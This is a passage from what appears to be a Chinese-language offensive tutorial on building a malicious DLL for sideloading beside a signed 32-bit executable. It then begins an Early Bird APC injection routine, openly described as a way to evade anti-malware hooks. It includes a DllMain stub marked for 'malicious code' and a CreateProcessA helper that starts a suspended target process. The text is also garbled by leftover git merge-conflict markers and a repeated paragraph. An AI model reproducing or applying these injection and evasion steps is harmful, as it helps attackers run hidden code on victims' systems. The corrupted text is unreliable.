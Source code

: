 可以看到里面的 load 和 init 函数我们其实都不需要，直接删掉里面代码，保留最基本都入口就可以了

```plain
=======
[![](assets/1710206045-1bad461b6396573163f3d29030fc2c1d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240311131407-2fd8faa8-df66-1.png)

打开生成的 VS project 我们发现它帮我们生成的很多函数，我们不需要可以直接删掉，这并不影响我们后续恶意代码运行：

[![](assets/1710206045-15415fedd16423078523475669407cb5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240311131416-34e26d90-df66-1.png)

可以看到里面的 load 和 init 函数我们其实都不需要，直接删掉里面代码，保留最基本都入口就可以了

```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
BOOL APIENTRY DllMain(HMODULE hModule, DWORD dwReason, PVOID pvReserved)
{
    if (dwReason == DLL_PROCESS_ATTACH)
    {
        DisableThreadLibraryCalls(hModule);
        //这里写我们的恶意代码
        。。。。。。。。
    }
    else if (dwReason == DLL_PROCESS_DETACH)
    {
        Free();
    }
    return TRUE;
}
```

注意事项：

1.  编译的时候要注意程序位数，我们的具备白签名的文件是 32 位，dll 也得是 32 位
2.  有些不同版本的编译器似乎无法正确解析\_\_asm jmp 汇编代码，可以直接批量 // 注释掉不影响运行
3.  cpp17 和 cpp20 标准编译可能有无法预测的行为会导致编译失败，我暂时还没弄清楚原因，本文代码建议用 cpp17 标准

### 编写注入方法

这里我将使用 Early Bird APC 注入 (早鸟 APC 注入)，Early Bird 是一种简单而强大的技术，Early Bird 本质上是一种 APC 注入与线程劫持的变体，由于线程初始化时会调用 ntdll 未导出函数 NtTestAlert，该函数会清空并处理 APC 队列，所以注入的代码通常在进程的主线程的入口点之前运行并接管进程控制权，从而避免了反恶意软件产品的钩子的检测，[同时获得一个合法进程的环境信息](https://idiotc4t.com/code-and-dll-process-injection/early-bird)

第一步，利用 CreateProcessA 拉起一个挂起的进程，这里我使用 DEBUG\_PROCESS 标志位来阻塞它使其具备 APC 注入的条件

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
std::tuple<DWORD, HANDLE, HANDLE> CreateProcessAndStop(const std::string& lpProcessName) {
    std::string lpPath =  lpProcessName;
    std::cout << "\n\t[i] Running: \"" << lpPath << "\" ... ";
    STARTUPINFOA Si = { sizeof(STARTUPINFOA) };
    PROCESS_INFORMATION Pi = { 0 };

    if (!CreateProcessA(NULL, (LPSTR)(lpPath.data()), NULL, NULL, FALSE, DEBUG_PROCESS, NULL, NULL, &Si, &Pi)) {
        std::cerr << "[!] CreateProcessA Failed with Error : " << GetLastError() << std::endl;
        return { 0, INVALID_HANDLE_VALUE, INVALID_HANDLE_VALUE };
    }
    std::cout << "[+] DONE" << std::endl;
    return { Pi.dwProcessId, Pi.hProcess, Pi.hThread };
}
```
